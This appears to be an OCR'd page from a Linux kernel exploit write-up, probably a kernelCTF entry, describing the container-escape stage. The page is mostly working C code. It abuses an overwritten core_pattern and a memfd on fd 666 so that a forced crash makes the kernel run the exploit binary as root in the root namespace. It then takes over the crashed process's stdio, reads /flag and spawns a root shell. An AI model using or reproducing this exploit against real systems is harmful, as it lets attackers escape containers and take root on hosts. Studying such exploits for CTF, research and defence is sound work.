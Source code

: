 ## Achieve container escape.

After core_pattern being overwritten to `|/proc/%P/fd/666 %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

This code for root to run looks like:
```c++
// This section of code will be execute by root!
int pid = strtoull(argv[1], 0, 10);
int pfd = syscall(SYS_pidfd_open, pid, 0);
int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
dup2(stdinfd, 0);
dup2(stdoutfd, 1);
dup2(stderrfd, 2);
/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
system("cat /flag");
execlp("bash", "bash", NULL);
```
